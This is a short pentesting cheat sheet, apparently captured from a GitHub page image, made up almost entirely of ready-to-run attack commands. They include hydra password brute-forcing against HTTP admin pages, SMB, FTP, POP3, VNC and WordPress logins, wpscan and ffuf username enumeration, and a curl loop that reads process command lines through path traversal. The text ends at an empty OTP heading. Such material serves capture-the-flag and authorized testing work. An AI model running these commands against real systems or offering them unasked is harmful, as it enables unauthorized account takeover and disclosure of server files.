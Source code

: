 ```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt -f $IP http-get /admin
```

```bash
hydra -t 1 -V -f -l $user -P /usr/share/wordlists/rockyou.txt $ip smb
```

```bash
hydra -l $user -P list.txt $ip ftp
```

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <URL> http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
```

**Bruteforce pop3 creds**

```bash
hydra -L usernames_list.txt -P passwords_list.txt pop3://<ip>
```

**Bruteforce wp-login using hydra and wpscan**

```bash
hydra -L usernames_list.txt -P $password <ip> -V http-form-post '/wp-login:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

```bash
hydra -l <username> -P <passwords.txt> <ip> -V http-form-post "/wp-login:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 30
```

```bash
wpscan -v -U $wordlist -P $wordlist --url <URL/wp-login.php>
```

**username bruteforce using FFUF**

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u <URL> -mr "username already exists"
```

**bruteforce VNC using hydra**

```bash
hydra -s 5900 -P /usr/share/wordlists/rockyou.txt vnc://<ip>
```

#### Bruteforce Procs

```bash
for i in $(seq 900 1000); do curl $IP:<port>/?page=../../../../proc/$i/cmdline -o -; echo "PID => $i"; done
```

#### Bruteforce OTP code
